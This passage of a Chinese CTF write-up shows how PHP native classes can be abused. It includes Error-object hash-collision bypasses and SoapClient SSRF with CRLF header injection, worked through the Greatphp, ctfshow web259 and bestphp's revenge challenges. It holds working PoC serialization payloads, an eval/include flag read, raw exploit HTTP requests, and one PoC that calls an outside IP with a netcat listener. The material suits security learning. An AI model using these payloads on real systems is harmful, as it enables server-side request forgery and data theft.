// Error: baozongwi in C:\Users\baozhongqi\Documents\VSCODE\php\index.php:3
// Stack trace:
// #0 {main}Error: baozongwi in C:\Users\baozhongqi\Documents\VSCODE\php\index.php:4
// Stack trace:
// #0 {main}
?>
```

这里当我们写在不同行的时候发现并不等，但是如果我们写在同一行中

```php
<?php
$str='baozongwi';
$a=new Error($str,1);$b=new Error($str,3);
if( ($a != $b) && (md5($a) === md5($b)) && (sha1($a)=== sha1($b)) ){
    echo 1;
}
/*
echo $a."\n";
echo $b;
Error: baozongwi in C:\Users\baozhongqi\Documents\VSCODE\php\caogao.php:3
Stack trace:
#0 {main}
Error: baozongwi in C:\Users\baozhongqi\Documents\VSCODE\php\caogao.php:3
Stack trace:
#0 {main}
?>
```

> 深究其本质，当我们对一个对象调用 `md5()` 或 `sha1()` 时，PHP 会将对象序列化成字符串，并基于该字符串计算哈希值。但是由于 `Error` 类在实现字符串化方法（`__toString`）时，可能只是返回对象的错误消息 `message` 属性，而忽略了 `code` 等其他属性。

所以直接比较的话没有忽略属性，是不等的，而哈希比较的话是相等的

```php
<?php
$a = new Error('baozongwi', 1);$b = new Error('baozongwi', 3);
echo md5($a)."\n"; 
echo md5($b); 
```

那么来个demo

**[极客大挑战 2020]Greatphp**

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

md5好绕过了，取反得到`flag`

```php
<?php
echo urlencode(~'/flag');
?>
```

写个`poc`

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;

}
$str="?><?=include~".urldecode("%d0%99%93%9e%98")."?><?";
$a=new Error($str,1);$b=new Error($str,2);
$c=new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo urlencode(serialize($c));
?>
```

这里的绕过hash知识使用`Exception`也是同样能够达到目的的

### ssrf

#### SoapClient

> SoapClient 是一个专门用来访问web服务的类，可以提供一个基于[SOAP](https://so.csdn.net/so/search?q=SOAP&spm=1001.2101.3001.7020)协议访问Web服务的 PHP 客户端。该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而`__call`触发很简单，就是当对象访问不存在的方法的时候就会触发。

该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

但是要知道的是既然我们是打`ssrf`，那么`wsdl`肯定是不开的

随便写个`poc`

```php
<?php
$a = new SoapClient(null,array('location'=>'http://27.25.151.48:2333/aaa', 'uri'=>'http://27.25.151.48:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    
?>
```

但是这样子的话利用效果仍然不大，仅仅只是触发恶意文件进行读取,但是如果还存在crlf漏洞的话，我们就可以插入HTTP头

```php
<?php
$target = 'http://ip:2333/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    
?>
```

```
root@dkcjbRCL8kgaNGz:~# nc -lvnp 2333
Listening on 0.0.0.0 2333
Connection received on ip 39598
POST /aaa HTTP/1.1
Host: ip:2333
Connection: Keep-Alive
User-Agent: WHOAMI
Cookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://27.25.151.48:2333#a"
Content-Length: 385

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://27.25.151.48:2333" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:a/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

也是看到成功插入了，那么来看几个`demo`

**ctfshow web入门 web259**

flag.php

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

绕过这个三层IP限制就会写入文件

```php
<?php
highlight_file(__FILE__);

$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

很明显的原生类啊

我们先绕过那个`array_pop()`,本身相当于我们打入多个IP被解析为数组之后，我们再利用`array_pop()`来移除数组的元素，再者来获取解析，所以写个`demo`试验一下

```php
<?php
// 模拟 HTTP_X_FORWARDED_FOR 请求头
// 你可以修改这个字符串来测试不同的输入情况
$_SERVER['HTTP_X_FORWARDED_FOR'] = '127.0.0.1,127.0.0.1';

// 打散为数组，用,分割
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);

// 移除数组中的最后一个元素
array_pop($xff);

// 获取移除后的最后一个元素（即倒数第二个元素）
$ip = array_pop($xff);

// 输出解析出的 IP 地址
echo "解析出的 IP 地址是: $ip\n";
```

也就是成功绕过了，那么我们可以用`SoapClient`增加任意`http`头

写个`poc`

```php
<?php
$target="http://127.0.0.1/flag.php";
$UA="ctfshow\r\nX-Forwarded-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$b=new SoapClient(null,array('location'=>$target,'user_agent'=>$UA,'uri'=>"http://127.0.0.1/"));
$a=serialize($b);
echo urlencode($a);
```

这里有个小细节就是`\r\n`的解析问题，你如果写单引号的话是不能够正常解析的，而我Python写多了，就习惯写单引号了，所以折腾了一会

**demo bestphp's revenge**

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> 
```

flag.php

```php
only localhost can get flag!session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } only localhost can get flag!
```

这里可以调用两个东西，那么看到session很容易猜到我们可以自己手动构造一个session反序列化漏洞，方便等会利用`SoapClient`

先写个`poc`

```php
<?php
$target="http://127.0.0.1/flag.php";
$b=new SoapClient(null,array('location'=>$target,'user_agent'=>"bao\r\nCookie:PHPSESSID=baozongwi\r\n",'uri'=>"http://127.0.0.1/"));
$a=urlencode(serialize($b));
echo "|".$a;
```

首先默认引擎是`php`,我们设置成`php_serialize`,同时写入请求等待触发

```
POST /?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A23%3A%22bao%0D%0ACookie%3Abaozongwi%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
Host: c818c5d3-ecfa-4f94-b98c-351d187d3305.node5.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=4bi9mnfonhkrth0isn77b2u1k6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```

然后变量覆盖使得触发不存在的方法

```php
call_user_func(call_user_func, array('SoapClient', 'welcome_to_the_lctf2018'));
```

```
POST /?f=extract&name=SoapClient HTTP/1.1
Host: c818c5d3-ecfa-4f94-b98c-351d187d3305.node5.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=4bi9mnfonhkrth0isn77b2u1k6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```

最后根据`session`特性，访问即可

```
GET / HTTP/1.1
Host: c818c5d3-ecfa-4f94-b98c-351d187d3305.node5.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=baozongwi
Connection: close
```

就这样就可以了，中途还是有一点点绕，主要就是要想到这个`session`和`crlf`怎么联系在一起(通过`session_id`)，然后正常打ssrf就可以了，方法的触发也一会就想得到

## 利用时机

看了这么多demo，应该大概知道利用时机了吧，

> 比如说disable_function禁用函数过多，只能进行类的调用触发方法来达到目的，又或者说代码非常少，并且其中已经明显的看得出来能够触发那些特殊方法，再逆序寻找可利用的原生类

# 0x03 小结

原生类可以搞到这么多事情，同时其中也有部分的xss部分，但是我的xss暂时不是很擅长，可以说是提醒我了，学到了一些东西

# 0x04 Reference

网上的文章都有查阅，感谢师傅们！
